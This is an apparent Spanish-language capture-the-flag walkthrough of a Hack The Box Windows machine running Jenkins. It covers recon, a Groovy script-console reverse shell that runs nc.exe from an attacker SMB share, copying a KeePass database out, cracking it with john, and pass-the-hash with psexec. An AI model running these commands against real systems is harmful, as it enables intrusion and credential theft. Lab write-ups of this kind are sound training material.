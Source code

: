 ## Summary

Tags: #Windows #Wfuzz  #Jenkins 

- IP -> 10.10.10.63
- Ports -> TCP (80,135,445,50000), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 80 ->  Microsoft IIS httpd 10.0
    - 5000 -> Http Jetty


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon 

```bash 
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80
❯ whatweb ❮http://IP❯ -v               # Nos dara una breve descripcion de las cabeceras 
```

```bash 
❯ curl -s -X GET http://❮IP❯ -I        # Miramos las cabeceras de respuesta de la pagina web 

	# I = i mayuscula
	# s = silence
```

```bash 
❯ crackmapexec smb 10.10.10.63         # Listar los recursos del SMBv1:TRUE

❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna) 

❯ smbmap -H ❮IP❯ -u 'null'             # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

Webpage -> < IP> and < IP:50000>

```bash 
❯ wfuzz -c -t 200 --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63/FUZZ

❯ wfuzz -c -t 200 --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.63:50000/FUZZ
```

Descubrimos una nueva ruta. 
Ahora toca investigar Jenkins:
	Que es?
	Para que sirve?


El error en la web de Jenkins es que te salga la opción: **Manage Jenkins**
	- Ir a 'Script Console'
	- Puedes crear un script en Groovy (Groovy execute shell command)
```bash 
	❯ println "whoami".execute().text                    # Nos muestre el resultado de 'whoami'
```

```bash 
❯ locate nc.exe                       # Para buscar el Netcat en nuestra maquina de atacante 
	❯ updatedb
```

## User
Webpage 
	- Puedes crear un script en Groovy (Groovy execute shell command)
		- **println "\\\\10.10.14.17\\smbFolder\\nc.exe -e cmd 10.10.14.17 443".execute().text** Vamos a crear un recurso compartido smb con nuestra maquina para compartir el nc.exe y despues hacer que cuando lo ejecute nos regrese una consola interactiva por el puerto 443

- Comando -> **impacket-server < FOLDERNAME> $(pwd) -smb2support** Nos creamos un recurso de red compartido, sincronizado con la ruta actual en donde se encuentra el archivo a compartir
- Comando -> **rlwrap nc -nlcp 443** Nos ponemos en escucha por el puerto 443 (Podemos hacer **Ctrl + l**, sin poder hacer **Ctrl + c**) maquinas Windows

nota: Si nos marca un error al moento de ejecutar la parte de la pagina web, debemos de escapar las barras agregando otra barra **\\**

- Comando-> **dir /r /s user.txt** Para buscar un archivo dentro de Windows, nos regresa la ruta en donde se encuentra

## Root

#### 1ra parte para convertirse en root:
En **C:\\Users\\kohsuke\\Documents** Encontramos un archivo con extencion **.kdbx** 

**copy CEH.kdbx \\\\10.10.14.17\\smbFolder\\CEH.kdbx** Copiamos un archivo de la maquina victima a nuestra maquina de atacante
		- CEH.kdbx -> Nombre dek archivo que nos queremos copiar de la maquina victima
		- 10.10.14.17 -> Nuestra direccion IP
		- smbFolder -> Nombre de la carpeta del recurso compartido 

- Comando -> **file < FILE>** Nos muestra que tipo de archivo es por los magic numbers, y asi saber que es un keepass

- Comando -> **keepassxc CEH.kdbx** Nos permite abrir el archivo keepass teniendo la passwd, de lo contrario hacemos lo siguiente
- Comando -> **keepass2john CEH.kdbx > hash** Si no sabemos la passwd, esto no sayuda a extraer un hash para poder hacer fuerza bruta
- Comando -> **john --wordlist=/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash

Obtenemos otro hash pero de la herramienta Keepass, por lo que podriamos hacer un 'Pass the hash'
- Comando -> **crackmapexec smb < IP TARGET> -u <‘Administrator’> -H <‘HASH’>** Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!.
- Comando -> **psexec.py WORKGROUP/Administrator@< IP> -hashes <'HASH'>** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 

Y seriamos nt authority\\System

ADS Alternate Data Strings 
	Comando -> **dir /r /s** Para listar informacion oculta
	Comando -> **more < hm.txt:root.txt** Miramos el contenido de un archivo oculto 


#### 2da parte para convertirse en root
1:29:00 Video para la segunda parte